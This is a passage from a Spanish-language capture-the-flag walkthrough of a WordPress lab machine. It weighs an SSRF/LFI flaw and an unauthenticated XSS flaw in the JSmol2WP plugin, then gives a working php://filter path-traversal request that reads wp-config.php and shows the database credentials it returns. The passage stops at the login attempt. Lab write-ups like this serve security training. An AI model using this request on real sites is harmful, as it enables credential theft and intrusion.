 <img width="1409" height="448" alt="vulnerabilidad ssrf" src="https://github.com/user-attachments/assets/be60f5cb-d9b8-4cc5-b65d-ce7bd156b491" />

#### 2. Cross-Site Scripting (XSS) No Autenticada

* **Vulnerabilidad:** **XSS No Autenticada** en la versión **<= 1.07** de **JSmol2WP**.
* **Impacto:** Permite la inyección de código *script* malicioso en páginas web visualizadas por otros usuarios (por ejemplo, un administrador), lo que podría conducir al robo de *cookies* o a la ejecución de acciones.
* 
<img width="1322" height="402" alt="vulnerabilidad xss" src="https://github.com/user-attachments/assets/fd4d0011-70b4-4ca0-8bed-0e134f886354" />

**Decisión:** La vulnerabilidad de **SSRF/LFI** (Lectura de Archivos Locales a través del *wrapper* `php://filter`) es el camino más directo para obtener credenciales, ya que **`wp-config.php`** a menudo contiene las credenciales de la base de datos.

**Resultado:** Se ha identificado el *plugin* vulnerable **jsmol2wp** y se priorizará la explotación de la vulnerabilidad **SSRF/LFI** para la lectura de archivos.

## 🔓 Paso 5: Explotación de LFI/SSRF y Acceso a WordPress

Con la vulnerabilidad de Server Side Request Forgery (SSRF) en el *plugin* `jsmol2wp` confirmada, el objetivo inmediato es explotarla para obtener las credenciales de la base de datos que se encuentran en el archivo `wp-config.php`.

### 📝 Objetivo
1.  Explotar la vulnerabilidad para leer el contenido del archivo `wp-config.php`.
2.  Extraer las credenciales de la base de datos.
3.  Usar las credenciales para acceder al panel de administración de WordPress.

### 🧑‍💻 Explotación de la Vulnerabilidad
Utilizamos la sintaxis de la Prueba de Concepto (PoC) encontrada, aprovechando el *wrapper* `php://filter` para leer el archivo de configuración.

#### Petición (LFI/SSRF):

```url
[http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php](http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php)
````
🖥 Salida y Extracción de Credenciales
La petición fue exitosa y devolvió el contenido completo del archivo wp-config.php.

Del archivo, extraemos las credenciales de la base de datos:
````
Detalle,Nombre de la Variable,Valor
Usuario DB,DB_USER,wpuser
Contraseña DB,DB_PASSWORD,KbLSF2YopefW3rJZGZG9aZGG
````

🔑 Intento de Inicio de Sesión
